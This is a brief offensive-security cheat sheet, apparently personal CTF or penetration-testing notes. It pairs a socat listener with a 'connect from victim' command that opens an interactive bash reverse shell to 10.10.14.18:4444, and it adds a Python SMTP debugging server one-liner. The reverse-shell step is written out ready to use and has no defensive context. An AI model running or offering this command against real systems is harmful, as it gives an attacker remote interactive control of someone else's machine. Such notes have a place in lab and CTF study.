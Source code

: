 <h3>Spawn tty</h3>

listener on your machine:
socat file:\`tty\`,raw,echo=0 tcp-listen:4444 

connect from victim
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.18:4444 

<h3>SMTP Server</h3>
sudo python -m smtpd -n -c DebuggingServer localhost:25

